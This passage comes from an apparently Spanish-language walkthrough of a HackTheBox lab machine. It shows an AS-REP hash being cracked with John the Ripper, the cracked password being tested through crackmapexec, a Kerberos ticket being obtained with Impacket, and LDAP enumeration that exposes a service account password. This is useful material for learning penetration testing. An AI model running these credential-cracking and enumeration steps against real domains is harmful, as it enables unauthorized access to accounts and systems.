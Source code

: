 ```shell
❯ john -w=/usr/share/Seclists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Darkmoonsky248girl ($krb5asrep$23$d.klay@ABSOLUTE.HTB)
1g 0:00:00:06 DONE (2023-02-23 22:02) 0.1543g/s 1734Kp/s 1734Kc/s 1734KC/s Darren@msn..Danish1984
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Al validarlo por crackmapexec vemos que tienen una restricción de cuenta.

```shell
❯ crackmapexec smb 10.10.11.181 -u d.klay -p Darkmoonsky248girl
SMB         10.10.11.181    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
```
Al parecer no podemos autenticarnos por smb pero por ldap tal vez si podeamos, pero para esto creamos un ticket del usuario para poder lograrlo.

```shell
❯ python3 getTGT.py absolute.htb/d.klay:Darkmoonsky248girl
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in d.klay.ccache

❯ crackmapexec ldap absolute.htb -u d.klay -d absolute.htb -k --kdcHost dc.absolute.htb --users
SMB         absolute.htb    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        absolute.htb    389    DC               [+] absolute.htb\
LDAP        absolute.htb    389    DC               [*] Total of records returned 20
LDAP        absolute.htb    389    DC               Administrator                  Built-in account for administering the computer/domain
LDAP        absolute.htb    389    DC               Guest                          Built-in account for guest access to the computer/domain
LDAP        absolute.htb    389    DC               krbtgt                         Key Distribution Center Service Account
LDAP        absolute.htb    389    DC               J.Roberts                      
LDAP        absolute.htb    389    DC               M.Chaffrey                     
LDAP        absolute.htb    389    DC               D.Klay                         
LDAP        absolute.htb    389    DC               s.osvald                       
LDAP        absolute.htb    389    DC               j.robinson                     
LDAP        absolute.htb    389    DC               n.smith                        
LDAP        absolute.htb    389    DC               m.lovegod                      
LDAP        absolute.htb    389    DC               l.moore                        
LDAP        absolute.htb    389    DC               c.colt                         
LDAP        absolute.htb    389    DC               s.johnson                      
LDAP        absolute.htb    389    DC               d.lemm                         
LDAP        absolute.htb    389    DC               svc_smb                        AbsoluteSMBService123!
LDAP        absolute.htb    389    DC               svc_audit                      
LDAP        absolute.htb    389    DC               winrm_user                     Used to perform simple network tasks
```
Al enumerar los usuarios vemos que conseguimos las credenciales del usuario svc_smb. Podemos volver a enumerar los servicios para ver que información podemos obtener de este usuario.
